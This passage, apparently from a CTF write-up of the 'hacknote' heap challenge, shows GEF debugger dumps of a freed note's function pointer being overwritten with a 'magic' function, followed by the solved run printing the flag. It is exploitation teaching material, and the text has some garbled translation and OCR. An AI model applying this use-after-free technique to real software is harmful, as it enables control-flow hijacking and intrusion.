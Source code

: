 $ is: 0x0000002b
$fs    : 0x00000000

$gs    : 0x00000063

$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────

    0x8048752 <add_note+220>   mov    al, ds:0x458b0804

    0x8048757 <add_note+225>   call   0x581173df

    0x804875c <add_note+230>   call   0x80484e0 <malloc@plt>

 →  0x8048761 <add_note+235>   add    esp, 0x10

```



Let&#39;s examine it in detail. Looking at the situation before the overlay, we can see that the put pointer of the memory block has been set to NULL, which is determined by the free mechanism of fastbin.


`` `asm
gef➤  x/2xw 0x804b008

0x804b008:	0x00000000	0x0804b018

```



After coverage, the specific values are as follows


`` `asm
gef➤  x/2xw 0x804b008

0x804b008:	0x08048986	0x0804b00a

gef➤  x/i 0x08048986

   0x8048986 <magic>:	push   ebp

```



It can be seen that it has indeed been covered as the magic function we want.


The final execution is as follows


```shell

[+] Starting local process './hacknote': pid 35030

[*] Switching to interactive mode

flag{use_after_free}----------------------

       HackNote       

----------------------

 1. Add note          
```
